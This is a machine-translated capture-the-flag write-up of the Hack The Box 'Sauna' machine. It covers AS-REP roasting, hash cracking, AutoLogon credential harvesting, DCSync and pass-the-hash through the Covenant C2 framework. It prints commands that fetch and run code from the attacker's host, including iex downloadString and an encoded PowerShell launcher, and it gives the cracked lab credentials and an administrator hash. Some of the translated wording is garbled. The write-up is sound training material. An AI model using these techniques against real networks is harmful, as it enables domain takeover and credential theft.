# 黑盒子—桑拿浴报道(与圣约 C2 合作)

> 原文：<https://infosecwriteups.com/hack-the-box-sauna-write-up-w-covenant-c2-c2d71141c90b?source=collection_archive---------1----------------------->



[https://www.hackthebox.eu/home/machines/profile/229](https://www.hackthebox.eu/home/machines/profile/229)

桑拿是由[利己主义者](https://www.hackthebox.eu/home/users/profile/94858)创造的一个由易到难的机器。我觉得这个框是现实的，因为它需要你根据他们的公共网站来设计潜在的用户名。我还决定展示一个 C2 框架，其中我选择了 [Covenant，](https://github.com/cobbr/Covenant)这也是我在 Hack the Box 的离岸实验室中使用的同一个 C2。

## 总结一下解决箱子问题的步骤:

**最初的落脚点:**

*   通过常用惯例生成潜在用户名
*   识别易受代理攻击的用户
*   用户是`Remote Management Users`的一部分，使用`WinRM`登录

**Fsmith → svc_loanmgr**

*   枚举并识别留在`Windows AutoLogon`注册表中的凭据

**SVC _ loan mgr→管理员**

*   用户对该域拥有`GetChanges-All`权限
*   数据同步

# 扫描:

我首先运行`masscan`来快速识别开放的端口:

```
sudo masscan -p1-65535,U:1-65535 10.10.10.175 --rate=1000 -e tun0
```


根据开放的端口，如 53，389，636，我可以有把握地假设这个机器是一个 Windows 服务器，作为域控制器。然后我继续运行默认的`nmap`扫描:

```
sudo nmap -sV -sC -oA nmap/initial 10.10.10.175 -vv -n
```



除了端口 80 是`open`之外，没有什么有趣的东西返回。扫描还告诉我这个域名是`EGOTISTICAL-BANK`。然后，我决定先列举一些常见的 Windows 协议。

## Windows RPC —端口 135

我试图使用 rpcclient 建立一个空会话。这在现代的 Windows 系统中已经不起作用了，但是你永远不会知道它是否允许你枚举关于主机或域本身的信息。当试图列出域用户时，我得到了`access denied` 。



然后我尝试用`lsaquery`来获取域 SID。我还试图使用`lookupnames`将域名转换成 SID，但得到的是`access denied`。

```
rpcclient $> lsaquery
Domain Name: EGOTISTICALBANK
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766
rpcclient $> lookupnames administrator
result was NT_STATUS_ACCESS_DENIED
```

然后我转向 LDAP。

**LDAP —端口 389**

LDAP 可以以多种方式列举。我可以使用大多数 Linux 系统中都有的`ldapsearch`，或者使用特定于 LDAP 的 nmap 脚本。我使用了`ldapsearch`并尝试以匿名用户的身份绑定，将 base 指定为 scope:

```
ldapsearch -x -h 10.10.10.175 -s base
```

我不能得到很多，为了简洁，我也截取了输出。输出中的一些有用信息提到`domainFunctionality`、`forestFunctionality`和`domainControllerFunctionality`是 7。

```
dn:                                                                                                                                                                            
domainFunctionality: 7                                                                                                                                                         
forestFunctionality: 7                                                                                                                                                         
domainControllerFunctionality: 7                                                                                                                                               
rootDomainNamingContext: DC=EGOTISTICAL-BANK,DC=LOCAL
```

## 端口 445 —中小型企业

为了列举 SMB，我使用了使用`-L`标志的`smbclient,`列表。我发现我可以匿名认证，但不能列出任何股份。



发现没什么有趣的，我开始列举`HTTP`。

## HTTP —端口 80

查看网页，好像公司是银行。


继续向下滚动，我找到了客户的照片，并提到了`“… I can’t even get a ticket to roast my chestnuts”`。这暗示着我得用“烤”做点什么。在活动目录攻击的背景下，`AS-REP roast`和`Kerberosting`浮现在脑海中。


index.html

然后，我使用 dirsearch 在页面上运行了一次目录暴力，指定检查扩展名为`aspx`、`html`和`txt`的文件。我没发现什么有趣的东西。



然后我浏览了网站，发现 `/about.html`提到了`Admin`的一些帖子。



/about.html

我还找到了`/contact.html`，上面有联系方式。我试着发送随机数据，并用打嗝来拦截它:



/contact.html

通过打嗝检查请求:



向`error 405`发送请求结果。means `POST`方法不允许，所以这种接触形式是死路一条。



查看其他页面，发现`/about.html`。它提到了一些用户是他们团队的一部分，并大声疾呼。它也给了我们几个名字，我们可以尝试从中生成用户名。


检查网页上的其他内容，似乎没有什么有用的东西，只是占位符。

## 砷焙烧

知道我有几个名字，我可以试着生成一个潜在用户名约定的单词列表。由于没有其他服务可供我们认证或登录，这很可能意味着我需要向 AD 认证。由于有一些关于“烘焙”的提示，我决定尝试 AS-REP 烘焙。代理烘烤是对 Kerberos 的一种攻击，在这种攻击中，您可以请求由未启用预验证的用户加密的数据。我在我的[森林文章](https://medium.com/bugbountywriteup/hackthebox-forest-5a11553de1)中解释了更多的概念。所以我的名字如下:

```
fergus smith
hugo bear
steven kerb
shaun coins
bowie taylor
sophie driver
```

从全名派生用户名的一种常见方法是用“点”分隔名和姓，如下所示:

```
fergus.smith
hugo.bear
steven.kerb
shaun.coins
bowie.taylor
sophie.driver
```

另一种常见的方法是使用名字的第一个字母后跟一个点，然后是姓氏，如下所示:

```
f.smith
h.bear
s.kerb
s.coins
b.taylor
s.driver
```

另一种方法是在姓后面加上名的第一个字母，就像这样:

```
fsmith
hbear
skerb
scoins
btaylor
sdriver
```

有了三种可能的用户名模式，我创建了一个单词列表:

```
fergus.smith
hugo.bear
steven.kerb
shaun.coins
bowie.taylor
sophie.driver
f.smith
h.bear
s.kerb
s.coins
b.taylor
s.driver
fsmith
hbear
skerb
scoins
btaylor
sdriver
```

然后，我使用 impacket 的 GetNPUsers 继续检查易受 AS-REP 攻击的用户:

```
/opt/impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile users1.txt -dc-ip 10.10.10.175
```



这导致用户`fsmith`用 AS-REP 响应，稍后我们可以使用 hashcat 破解它。即使这种技术没有返回易受攻击的用户，这也可以帮助您识别有效的域用户。请注意，当错误为`KDC_ERR_C_PRINCIPAL_UNKNOWN`时，该用户不是有效的域用户。这可以通过使用`Administrator`用户名进行测试来验证，我确信这个用户名是存在的:

```
/opt/impacket/examples/GetNPUsers.py EGOTISTICAL-BANK.LOCAL/Administrator -dc-ip 10.10.10.175
```



响应是 UF_DONT_REQUIRE_PREAUTH 设置，这意味着为该用户启用了预验证。继续，我将返回的 AS-REP 放在一个文本文件中，并用`hashcat`破解它:

```
hashcat -m 18200 hash /usr/share/wordlists/rockyou.txt --force
```



用户`fsmith`的密码是`Thestrokes23`。

然后，我使用 crackmapexec(cme)检查凭证是否有效，并检查域的密码策略，这在 CTF 环境中不再有用，但在真正的测试中，这将为您提供关于帐户锁定和域中强制执行的最小密码长度等有价值的信息。

```
/opt/cme smb 10.10.10.175 -d EGOTISTICAL-BANK -u fsmith -p Thestrokes23 --pass-pol
```



我还使用 cme 查看了可用的股票:



我还用 smbmap 检查了一下:

```
/opt/smbmap/smbmap.py -H 10.10.10.175 -u fsmith -p Thestrokes23
```



为什么我做了两次？因为我想展示你如何用不同的工具完成一件事。因此，当 cme 或 smbmap 或 smbclient(我在上面使用过)中的任何一个失败时，我仍然可以使用一些选项来实现我的目标。

在检查这些共享之前，我首先列举了 LDAP，因为我现在可以对域进行身份验证了:

```
ldapdomaindump 10.10.10.175 -u "egotistical-bank\fsmith" -p Thestrokes23  -o ldapdomaindump/ --no-json --no-grep
```

检查 html 输出，它显示了域用户及其成员的列表。值得注意的是，`fsmith`是`Remote Management Users`的一部分，这意味着用户最有可能在盒子上做`PSRemoting`。还有另外一个用户`svc_loanmgr`，网页中没有提到(当然因为是服务账号)。



从 ldapdomaindump 的输出中，可以看到`DONT_REQ_PREAUTH`是为`fsmith`设置的，导致那个用户容易受到`AS-REP`的烘烤。



我可以通过各种方式与运行在端口`5985`或 `5986(SSL)`上的`PSRemoting`交互。因为我使用的是 Kali，所以首选是`Evil-WinRM`。我现在在盒子上有了一个初步的立足点。



然后，我在 C:\users 目录下递归地列出深度为 3 的文件和目录。`Gci`是 PowerShell 中`Get-ChildItem`的快捷方式。基本就是 Windows CMD 上的`dir`或者 Bash 上的`ls`。

```
*Evil-WinRM* PS C:\Users\FSmith\Documents> gci -path c:\users\ -recurse -depth 3
```

我在盒子上找到用户:



我还找到了`fsmith’s`桌面下的`user.txt`:



## fsmith → svc_loanmgr

为了列举我如何提升权限，我使用了[安全带](https://github.com/GhostPack/Seatbelt)，这是一个检查常见 Windows 配置的工具。我将该文件放在我的 Python http 服务器上，并下载到机器上。

```
*Evil-WinRM* PS C:\Users\FSmith\Documents> iwr -uri [http://10.10.14.3/s.exe](http://10.10.14.3/s.exe) -o ..\music\s.exe
```

我用`-group=all`选项运行`Seatbelt`，因为我想让蓝队找到我。请注意，这是非常嘈杂的，因此在实际参与中，不要运行`-group=all`选项。



一个值得注意的发现是留在 WindowsAutoLogon 上的凭证。这通常是一种错误的配置，因为它提供了便利。你可以在这里了解更多信息[。](https://support.microsoft.com/en-ph/help/324737/how-to-turn-on-automatic-logon-in-windows)



微软提到这是一个安全风险:

> 如果您将电脑设置为自动登录，任何可以实际访问该电脑的人都可以访问该电脑的所有内容，包括它所连接的任何网络。此外，当自动登录打开时，密码以纯文本形式存储在注册表中。Authenticated Users 组可以远程读取存储该值的特定注册表项。只有在计算机受到物理保护并且已经采取措施确保不受信任的用户无法远程访问注册表的情况下，才建议使用此设置。

然后，我以`svc_loanmgr`的身份登录到机器。然后我开始在盒子上装载 [Powerview](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon) 。

```
iex(new-object net.webclient).downloadString('[http://10.10.14.3:9000/1.ps1'](http://10.10.14.3:9000/1.ps1'))
```

我还通过对`svc_loanmgr`运行`Get-DomainUser`来检查脚本是否正确加载:

```
get-domainuser -identity svc_loanmgr
```



当我最初解决这个问题时，我使用了`Bloodhound`，这将清楚地向您显示用户`svc_loanmgr`可以`DCSync`并获得域散列。但是为了这篇文章的目的和增加趣味，我将使用用`C#`编写的 C2 框架`Covenant`(这意味着它的移植只在 Windows 主机上工作)，因为关于如何设置它的文章很少，我还将演示它的基本功能。如果您在一个有成百上千台 PC 的真实环境中，您不能只使用 netcat 或 Metasploit 来捕获 shell，因为随着您深入环境，shell 和会话会变得更难管理。因此使用了 C2 框架。

## 使用契约:

要使用 Covenant，我需要首先从 Github [repo](https://github.com/cobbr/Covenant) 中克隆它。安装步骤可以在[这里](https://github.com/cobbr/Covenant/wiki/Installation-And-Startup)找到。我会做第一个选择。克隆回购:

```
git clone --recurse-submodules [https://github.com/cobbr/Covenant](https://github.com/cobbr/Covenant)
```

我还需要下载 dotnet。注意，下载回购中提到的 dotnet 具体版本。



提取其内容后，我使其可执行，并使用`dotnet build`构建契约。如果一切顺利，您应该看到构建成功了。然后我`dotnet run` 在圣约/圣约目录上启动圣约。默认情况下，它侦听端口 7443。以提升的权限运行它也是理想的，这样您就可以为您的侦听器使用公共 TCP 端口。



访问 https:// <yourip>:7443，它提示警告，因为 Covenant 使用自签名证书，这没问题:</yourip>



接受后，需要注册一个初始用户。您可以稍后添加更多用户。



Covenant 的仪表盘很简单。它显示你的`Grunts`、`Listeners`和`Taskings`。咕噜声是您当前在受害者机器上运行的`“implant”`。`Listeners`是植入回调的地方，`Taskings`是分配给`Grunts`的命令或模块。我建议您阅读 Github repo 上的文档以了解更多详细信息。



第一步是创建一个监听器:



按下 create，我可以给我的监听器一个`name`,这有助于识别哪个监听器用于什么。我还将连接地址设置为我的 Hack the Box IP:



现在看到有个听众叫桑拿，还是`Uninitialized`。这是因为我将 Covenant 作为`non-elevated user`运行，这阻止了 Covenant 使用端口 80(一个公共端口)。如果我以提升用户的身份运行 Covenant，或者选择一个更高的端口，那么状态将是`Active`。



检查我运行 Covenant 的终端，由于上面提到的原因，我看到“权限被拒绝”。


我故意这样做是为了演示在设置 Covenant 时可能出现的问题。这一次，我以提升的用户身份重新运行了 Covenant，并在端口 9000 上创建了一个侦听器(在实际操作中，使用 53、80 或 443 等常见端口。但是要确保为 HTTPs 设置了可信证书)。看到状态是`Active`。



既然我有了一个听众，下一步就是选择一个`Launcher`。发射器是我用来发射咕噜声的。这可以通过以下各种方式实现:



例如，我可以用一个二进制数`Launcher`来启动一个`Grunt`。



选择“生成”以创建启动器:



有多种方法可以将二进制启动器放在受害者盒子上。我可以下载二进制文件，然后通过 HTTP 或 SMB 或其他方式传输。我还可以重命名该文件:



我还可以使用创建的侦听器来托管文件。



或者甚至检查所使用的代码，这可以方便地构建您自己的`Grunts`以达到规避的目的。



我也可以使用 PowerShell `Launcher:`启动一个`Grunt`



按下 generate，它创建两个 PowerShell 一行程序，其中一个是编码的。我可以把这个贴在我的受害者专栏上。



我用的是 PowerShell 启动器。现在，在我的圣约人仪表盘上，我收到了一个咕噜人已被激活的通知:



检查`Grunt`的属性，它显示有用的信息，如域名、当前用户、主机名、IP 地址、Windows 版本和时间细节。



选择一个任务后，会出现各种选项卡，如信息、交互、任务和任务。信息就是我上面显示的。

Interact 是一个终端，可以用来与 Grunt 交互。例如，使用`ShellCmd`任务，我可以运行`whoami`:



任务是交互的“GUI”版本:



工作

最后是 Taskings(由我在下面运行的任务填充),它列出了分配给这个任务的所有任务:



任务选项卡

然后我可以给士兵一个任务，你有很多选择，我会让你自己去探索。安全带在这里也是可用的，所以我运行相同的命令“-group=all”。



任务选项卡

然后，我可以在 Taskings 下选择一个特定的任务，并查看其状态或输出。这也反映在交互选项卡中。



然后我启动另一个`Grunt`，这一次是在我的`WinRM`会话中作为 s `vc_loanmgr`。我得到一个回调，我可以看到我有两个`Grunts`:



使用 C2 的一个优点是我可以通过 Grunt 导入 PowerShell 脚本。我可以分配一个名为“PowerShellImport”的任务。在这种情况下，我将导入 Powerview。



我还可以托管任何文件，在本例中是文件名为 1.ps1 的 Powerview。



按下 create 后，它生成一个 PowerShell 一行程序，使用著名的 iex(Invoke-Expression)将脚本加载到内存中。



因为我之前已经知道`svc_loanmgr`拥有`DCSync`权限，所以我可以为我的 Grunt 分配一个任务来使用 DCSync，它使用 Mimikatz 二进制文件。不需要在系统上删除 Mimikatz 二进制文件或加载 Invoke-Mimikatz！



然后我看到管理员哈希:



Covenant 的另一个很酷的特性是，它可以存储使用 Grunts 收集的凭证，还可以列出在实际参与中有帮助的指标。



现在我有了管理员的散列，我可以传递散列了。我使用 cme 执行 PowerShell 命令，这是一个编码的 PowerShell 启动器:

```
sudo /opt/cme smb 10.10.10.175 -d egotistical-bank.local -u administrator -H 'd9485863c1e9e05851aa40cbb4ab9dff' -X "powershell -Sta -Nop -Window Hidden -EncodedCommand aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMwA6ADkAMAAwADAALwBhAC4AcABzADEAJwApAA=="
```



然后，我收到一个通知，通知我一个`Grunt`被激活:



检查我的`Grunts`:



然后，我与作为管理员运行的 Grunt 进行交互，并从那里读取标志。



我的文章到此结束。我希望你学到了新的东西！感谢阅读！🍺